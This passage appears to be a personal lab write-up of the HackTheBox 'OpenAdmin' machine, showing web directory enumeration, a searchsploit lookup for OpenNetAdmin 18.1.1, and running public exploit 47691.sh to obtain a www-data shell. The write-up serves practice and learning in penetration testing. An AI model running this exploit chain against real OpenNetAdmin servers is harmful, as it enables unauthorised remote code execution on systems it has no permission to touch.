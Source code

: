 ```bash
301      GET        9l       28w      316c http://10.10.10.171/sierra/js => http://10.10.10.171/sierra/js/
301      GET        9l       28w      319c http://10.10.10.171/sierra/fonts => http://10.10.10.171/sierra/fonts/
301      GET        9l       28w      321c http://10.10.10.171/sierra/vendors => http://10.10.10.171/sierra/vendors/
```

Found 3 websites
- http://10.10.10.171/music/
- http://10.10.10.171/artwork/
- http://10.10.10.171/sierra/

From music, also found another login page
- http://10.10.10.171/ona/

It is running ONA v18.1.1 which is vulnerable to RCE.

```bash
ghost@localhost [18:42:01] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % searchsploit OpenNetAdmin
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                           | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)            | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                             | php/webapps/47691.sh
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

You can read about the explanation here (https://medium.com/r3d-buck3t/remote-code-execution-in-opennetadmin-5d5a53b1e67).

For the exploit 47691, the blog post can be found here (https://zacheller.dev/open-net-admin). Also I found additional web pages under `/var/www/html`.

```bash
ghost@localhost [18:54:05] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % ./47691.sh 10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls /var/www/html
artwork
index.html
marga
music
ona
sierra
```
